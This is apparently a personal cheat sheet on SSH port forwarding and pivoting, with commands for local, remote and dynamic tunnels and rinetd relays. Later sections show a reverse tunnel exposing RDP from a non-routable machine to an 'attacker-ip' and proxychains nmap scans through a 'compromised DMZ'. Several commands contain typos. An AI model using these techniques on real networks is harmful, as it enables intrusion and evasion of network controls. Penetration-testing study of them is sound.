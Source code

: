> https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/

# Local Port Forwarding
```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

From work:
```
ssh -L 9001:banned-site.com:80 home
curl http://localhost:9001
```

# Remote Port Forwarding
From work:
```
ssh -R 9001:intra-ssh-server:22 home
```
Server will bind port 9001 on ‘home’ machine to listen for incoming requests which would subsequently be routed through the created SSH channel visiting http://localhost:9001 in ‘home’ will fotward user to intra:80

From home:
```
ssh -p 9001 localhost
```

# Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

# rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

# Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

# SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```
